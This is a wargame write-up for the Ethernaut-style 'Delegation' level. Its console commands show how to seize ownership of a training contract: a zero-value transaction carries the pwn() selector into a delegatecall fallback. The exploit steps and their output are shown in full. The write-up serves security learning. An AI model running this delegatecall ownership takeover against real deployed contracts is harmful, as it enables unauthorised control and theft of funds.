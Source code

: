 # Level 6: Delegation

### Wargame
The goal of this level is for you to claim ownership of the instance you are given.

### Key Insights
* What is the way to call the non-payable fallback() of Delegation?
* What is the way to call the function pwn() of Delegate?

### Attack Steps
1. Inspect Initial Contract Owner:
    Before executing the attack, display the current owner of the target contract. This is typically done by calling a public owner() function on the contract instance. You will observe that the owner is initially not your address.
    ```bash
    > await contract.owner()
    '0x73379d8B82Fda494ee59555f333DF7D44483fD58'

    > player
    '0xEB47eAB0027B0DDd5615D00f9D83eC0e71D3aeFf'
    ```

2. Trigger the Vulnerable Fallback:
    Now, to exploit the contract and trigger the vulnerable fallback function, send a transaction to the target contract's address. This transaction must have zero ETH (value: 0) and includepwn() of Delegate function selector in its calldata. This will cause the fallback to execute the malicious logic intended by the attacker.
    ```bash
    > await web3.eth.sendTransaction({from: player, to: instance, data: web3.eth.abi.encodeFunctionSignature("pwn()"), value: "0x0"})

    {blockHash: '0xe534ebb8580d1b94eb120d360b83dcdf61dc49910dde9610eaef14936e073f0e', blockNumber: 8791481, contractAddress: null, cumulativeGasUsed: 221377, effectiveGasPrice: 2500964642, …}
    ```

3. Verify New Contract Ownership:
    After the transaction is confirmed, display the owner of the target contract again. You will now observe that the contract's owner has been successfully changed to your address, demonstrating the success of the attack.
    ```bash
    > await contract.owner()
    '0xEB47eAB0027B0DDd5615D00f9D83eC0e71D3aeFf'
    ```

